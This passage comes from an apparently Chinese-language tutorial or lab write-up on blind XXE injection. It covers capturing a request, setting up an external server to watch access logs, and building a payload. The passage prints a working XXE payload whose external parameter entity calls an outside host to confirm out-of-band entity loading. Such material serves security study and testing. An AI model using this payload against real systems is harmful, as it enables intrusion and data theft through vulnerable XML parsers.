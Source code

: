 #### 3.2.1.2.**抓包测试**

这里我们首先抓包进行测试，可以发现不在出现报错，以及原来显示的位置也不在显示。

![img](assets/mqPocthAv1C3UDK.jpg) 

#### 3.2.1.3.**构建payload**

这里需要在外部搭建一台vps，而这里我就直接使用虚拟机完成吧，无回显需要查看服务器的访问日志，当存在访问日志了，那么就可以证明是支持外部实体的，若不存在日志，则证明不支持外部实体，或者被WAF拦截。

payload：

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE ANY [

<!ENTITY % shit SYSTEM "http://192.168.10.50/1.txt">

%shit;

]>
```

![img](assets/v2JZrRBGsKuEVj9.jpg) 
